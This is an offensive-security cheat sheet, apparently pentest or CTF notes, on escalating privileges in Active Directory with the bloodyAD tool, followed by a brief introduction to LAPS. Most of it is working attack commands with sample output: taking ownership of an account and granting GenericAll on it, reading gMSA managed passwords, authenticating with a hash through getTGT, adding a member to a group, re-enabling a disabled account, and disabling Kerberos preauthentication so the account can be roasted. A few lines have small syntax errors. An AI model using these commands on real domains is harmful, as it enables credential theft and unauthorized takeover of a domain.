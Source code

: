 ### bloodyAD

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/CravateRouge/bloodyAD/wiki/User-Guide

# One of the best tools for AD privesc is bloodyAD and also accepts Kerberos authentication.
https://github.com/CravateRouge/bloodyAD
bloody-AD -h domain.local -u $USER -p $PASS --host $HOSTNAME get search --filter '(ObjectClass=ms...) --attr $ATTRIBUTE

'# USING HASHES
getTGT.py -k -hashes :xxxxxxxxxxxxxxxxxxx dom.com/user
[*] Saving ticket in user.ccache
KRB5CCNAME=user.ccache bloodyAD -d dom.com -k --host "dc01.dom.com" ...
# OR USING PASSWORD/HASH -> -f specifies the format and ... is the add action or whatever attribute we want to modify
bloodyAD -d domain.com -u 'user' -p 'HASH' -f rc4 --host dc01.domain.com -k add ...

bloodyAD -d dom.com --host $IP -u $USER -p $PASS set owner ca_svc $USER
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by $USER on ca_svc
bloodyAD -d dom.com --host $IP -u $USER -p $PASS add genericAll ca_svc $USER
[+] $USER has now GenericAll on ca_svc

# ReadGMSAPassword
bloodyAD -d dom.com -u "USER" -p $PASS -k --host dc01.dom.com  get object "gMSA01$" --attr msDS-ManagedPassword

# Add account to a group
bloodyAD -d vintage.htb -u "gMSA01$" -k ccache=gMSA01$.ccache --host dc.dom.com add groupMember "ServiceManagers" "gMSA01$"        

# Enable account
bloodyAD -d vintage.htb -k --host dc.dom.com remove uac svc_account -f ACCOUNTDISABLE  

# Set UF_DONT_REQUIRE_PREAUTH to allow Kerberoasting
bloodyAD -d vintage.htb -k --host dc.dom.com add uac svc_account -f DONT_REQ_PREAUTH 
```
{% endcode %}

### Targeted Kerberoast

If we have rights to do so, try AS-REP Roasting or Kerberoasting as well.

## LAPS

The **"Local Administrator Password Solution"** (LAPS) provides management of local account passwords of domain joined computers.&#x20;

Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.&#x20;
